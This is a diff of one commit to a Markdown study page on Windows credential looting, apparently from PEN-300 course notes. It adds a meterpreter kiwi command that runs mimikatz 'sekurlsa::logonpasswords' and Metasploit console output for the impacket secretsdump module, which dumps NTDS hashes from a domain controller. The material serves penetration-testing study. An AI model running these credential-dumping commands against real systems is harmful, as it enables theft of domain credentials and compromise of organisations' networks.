

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Windows Credentials/Looting.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Windows Credentials/Looting.md
+++ b/Windows Credentials/Looting.md
@@ -145,7 +145,8 @@ The NTDS.dit, is a database that is usually stored on the Domain Controllers. Th
 
 **DcSync:**
 
-The main advantatge of this techique is that is less noisy than dumping the NTDS
+The main advantatge of this techique is that is less noisy than dumping the entire NTDS.
+
 The domain controller receiving a request for an update does not verify that the request came from a known domain controller, but only that the associated SID has appropriate privileges.
 
 In a nutshell, to be able to perform DcSync we must: be a domain admin or make the DcSync from a computer that has domain replication permissions.
@@ -203,8 +204,29 @@ To read LAPS:
 Alternatively, you can use "kiwi_cmd" from a meterpreter shell to execute any mimikatz command:
 
 ```
+#From a meterpreter session
 1. load kiwi
 2. kiwi_cmd "sekurlsa::logonpasswords"
 ```
 
-Dumping the NTDS from metaspoit:
+Dumping the NTDS from metaspoit(using auxiliary/scanner/smb/impacket/secretsdump module):
+
+```
+[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/smb/impacket/secretsdump
+[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/impacket/secretsdump) >> options
+
+Module options (auxiliary/scanner/smb/impacket/secretsdump):
+
+   Name        Current Setting  Required  Description
+   ----        ---------------  --------  -----------
+   ExecMethod  smbexec          yes       The method to use for execution (Accepted: smbexec, wmiexec, mmcexec)
+   OutputFile                   no        Write the results to a file
+   RHOSTS                       yes       The target host(s), see https://github.com/rapid7/metasploit-framewo
+                                          rk/wiki/Using-Metasploit
+   SMBDomain   .                no        The Windows domain to use for authentication
+   SMBPass                      yes       The password for the specified username
+   SMBUser                      yes       The username to authenticate as
+   THREADS     1                yes       The number of concurrent threads (max one per host)
+
+[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/impacket/secretsdump) >>
+```
````
